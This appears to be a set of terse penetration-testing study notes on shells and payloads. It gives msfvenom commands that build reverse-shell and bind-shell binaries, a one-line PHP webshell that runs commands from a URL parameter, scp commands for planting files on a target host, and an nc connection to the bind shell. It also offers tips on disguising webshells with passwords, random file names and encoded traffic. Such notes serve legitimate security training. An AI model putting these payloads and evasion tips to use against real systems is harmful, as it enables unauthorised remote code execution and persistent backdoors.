 - type2
    - Staged: small > download payload more 
    - Stageless : needed payload all included

- depends on OS
    - linux ELF
    - web php, jsp
    - windows powershell,...


- Reverse shell cheatsheet.md : really simple online - github 
- revshells.com : generator 
- msfvenom
```
msfvenom --list payload
msfvenom -p PYLOAD --list-options
msfvenom -p PYLOAD --list formats
msfvenom -p linux/x64/shell_reverse_tcp LHOST= LPORT= -f elf -o reverse.elf
```

#### webshell
- php shell
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
```
scp webshell.php root@172.31.176.64:/var/www/html/webshell.php
```

- in practice, don't upload this kind of webshell, malicious file left

- password or secured way 
    - wso-webshell > github > copy all Raw or wget RAW(wso.php) > make own password rather than default password 
    - echo -n ' ' | md5sum

    - random file name 
        - e.g. alkdfjlsadfjasd.php

- but still dangerous to upload 

- seems normal traffic > but request(get), respond suspicious > at advanced level, encoding or encrypt,decrypt



#### bind shell
- bindshell : listening open myself
```
msfvenom -p linux/x64/shell_bind_tcp RHOST=172.31.176.64 LPORT=7777 -f elf -o 
: stageless 

scp bindshell root@172.31.176.64:/tmp/bindshell

nc 172.31.176.64 7777

```

